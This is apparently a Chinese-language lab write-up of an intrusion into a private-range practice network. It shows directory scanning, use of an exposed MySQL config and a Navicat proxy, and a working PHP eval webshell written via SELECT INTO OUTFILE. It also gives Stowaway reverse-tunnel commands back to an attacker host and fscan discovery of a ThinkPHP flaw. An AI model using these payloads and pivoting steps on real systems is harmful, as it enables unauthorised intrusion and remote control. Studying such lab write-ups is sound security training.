# 外网打点

外网：10.70.0.30


先对这个IP做一个信息收集



扫到了两个看起来有用的文件（这是用dirb才能扫到，我的dirsearch的字典里没有这个）





来看看这两个文件是什么吧



sql.conf是mysql的端口和密码



proxy.php是一个navicat的代理，可以直接去连上本地的mysql

直接用navicat去连接，连接的时候使用http代理







连上了数据库，看看可不可以直接select into outfile写文件

```
show global variables like '%secure%';

set global secure_file_priv='';
/var/lib/mysql-files/
```



securl_file_priv不为空，发现/var/www/html是可写的，直接用mysql写webshell到web目录

```
SELECT "<?php phpinfo();@eval($_POST[1]);?>" INTO OUTFILE "/var/www/html/shell.php";
```



直接蚁剑连上去，通过插件上线msf



# socks代理

这里我选择用stowaway

```
./admin -l 9999 -s DawnT0wn
```

agent端

```
./linux_x64_agent -c 10.70.0.222 -s DawnT0wn
```





# 内网信息收集

传了个fscan上去



扫到192.168.58.21有thinkphp的洞

